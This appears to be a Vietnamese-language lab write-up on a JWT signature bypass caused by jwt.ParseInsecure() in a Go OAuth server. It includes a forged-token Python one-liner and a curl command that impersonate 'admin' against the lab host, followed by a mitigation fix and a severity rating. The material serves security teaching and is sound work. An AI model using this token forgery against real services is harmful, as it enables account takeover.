 # Lab04 - JWT Signature Bypass Vulnerability

## Tóm tắt lỗ hổng

Lab04 chứa lỗ hổng bảo mật nghiêm trọng trong việc xử lý JWT token. Server sử dụng `jwt.ParseInsecure()` thay vì `jwt.Parse()` với signature verification, cho phép attacker bypass hoàn toàn authentication.

## Chi tiết lỗ hổng

### Vị trí lỗ hổng
```go
// File: lab04/server/internal/services/accesstoken.go:116
func (a *AccessTokenService) Get(ctx context.Context, signedToken string) (*dto.AccessToken, error) {
    token, err := jwt.ParseInsecure(  // ⚠️ Lỗ hổng ở đây!
        []byte(signedToken),
        jwt.WithIssuer(a.meta.Issuer),
        jwt.WithRequiredClaim("jti"),
        jwt.WithRequiredClaim("aud"),
        jwt.WithRequiredClaim("sub"),
        jwt.WithRequiredClaim("scope"),
        jwt.WithRequiredClaim("client_id"),
        jwt.WithValidator(a.validator(ctx)),
    )
    // ...
}
```

### Nguyên nhân
- **`jwt.ParseInsecure()`**: Function này không verify signature của JWT
- **Thiếu signature verification**: Server tin tưởng bất kỳ JWT nào có format đúng
- **Validation không đủ**: Chỉ check format và required claims, không check tính authentic

### Impact
- **Complete Authentication Bypass**: Attacker có thể impersonate bất kỳ user nào
- **Data Exposure**: Truy cập thông tin profile của users khác
- **Privilege Escalation**: Có thể leo thang quyền thành admin

## Cách exploit

### Yêu cầu cho exploit thành công
1. **Client ID hợp lệ**: Phải sử dụng client_id có trong database
2. **Required Claims**: JWT phải chứa: `jti`, `aud`, `sub`, `scope`, `client_id`
3. **Audience validation**: `client_id` phải có trong `aud` array
4. **Target user**: User phải tồn tại trong database

### Client ID trong lab04
```yaml
# Từ docker/lab04/client.config.yaml
client:
  id: 'f20e7e23-0376-4c18-9e05-1f862264a288'
```

### Endpoint target
- **URL**: `https://server-04.oauth.labs/api/users/me`
- **Method**: GET
- **Authentication**: Bearer JWT token
- **Response**: User profile information

### Payload JWT structure
```json
{
  "header": {
    "alg": "RS256",  // Không quan trọng vì server không verify
    "typ": "JWT"
  },
  "payload": {
    "iss": "https://server-04.oauth.labs",
    "sub": "admin",  // Username để impersonate
    "aud": ["f20e7e23-0376-4c18-9e05-1f862264a288"],
    "exp": 1735689600,  // Future timestamp
    "iat": 1672153600,
    "jti": "fake-jti-id",
    "scope": "read:profile",
    "client_id": "f20e7e23-0376-4c18-9e05-1f862264a288"
  },
  "signature": "fake_signature"  // Bất kỳ string nào
}
```

## Scripts exploit

### 1. Python script (lab04_working_exploit.py)
```bash
python3 lab04_working_exploit.py
```
Features:
- Test multiple usernames
- Detailed error handling
- Clear success/failure reporting

### 2. Bash script (lab04_curl_exploit.sh)
```bash
./lab04_curl_exploit.sh
```
Features:
- Lightweight curl-based testing
- Quick verification
- Cross-platform compatible

### 3. Manual curl command
```bash
# Tạo JWT với Python
JWT=$(python3 -c "
import json, base64, time
h = base64.urlsafe_b64encode(json.dumps({'alg':'RS256','typ':'JWT'}).encode()).decode().rstrip('=')
p = base64.urlsafe_b64encode(json.dumps({
    'iss': 'https://server-04.oauth.labs',
    'sub': 'admin',
    'aud': ['f20e7e23-0376-4c18-9e05-1f862264a288'],
    'exp': int(time.time()) + 3600,
    'iat': int(time.time()),
    'jti': 'exploit',
    'scope': 'read:profile',
    'client_id': 'f20e7e23-0376-4c18-9e05-1f862264a288'
}).encode()).decode().rstrip('=')
print(f'{h}.{p}.fake')
")

# Exploit endpoint
curl -k -H "Authorization: Bearer $JWT" \
  https://server-04.oauth.labs/api/users/me
```

## Mitigation

### Cách sửa lỗ hổng
1. **Sử dụng `jwt.Parse()` thay vì `jwt.ParseInsecure()`**
2. **Thêm signature verification với public key**
3. **Validate issuer, audience, expiration claims**

### Code fix example
```go
// BEFORE (vulnerable)
token, err := jwt.ParseInsecure([]byte(signedToken), options...)

// AFTER (secure)
token, err := jwt.Parse([]byte(signedToken), 
    jwt.WithKey(jwa.RS256, publicKey),  // Add signature verification
    options...)
```

## Testing

### Yêu cầu môi trường
- Lab04 server phải đang chạy
- Access đến `https://server-04.oauth.labs`
- Python 3 với `requests` library
- Bash shell (cho script curl)

### Các user thường có trong database
- `admin` - Administrator account
- `alice`, `bob` - Demo users
- `user1`, `test` - Test accounts

## Severity Assessment

- **CVSS Score**: 9.1 (Critical)
- **Attack Vector**: Network
- **Attack Complexity**: Low
- **Privileges Required**: None
- **User Interaction**: None
- **Impact**: Complete authentication bypass

## References

- [JWT.io - Introduction to JSON Web Tokens](https://jwt.io/introduction/)
- [RFC 7519 - JSON Web Token (JWT)](https://tools.ietf.org/html/rfc7519)
- [OWASP JWT Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html) 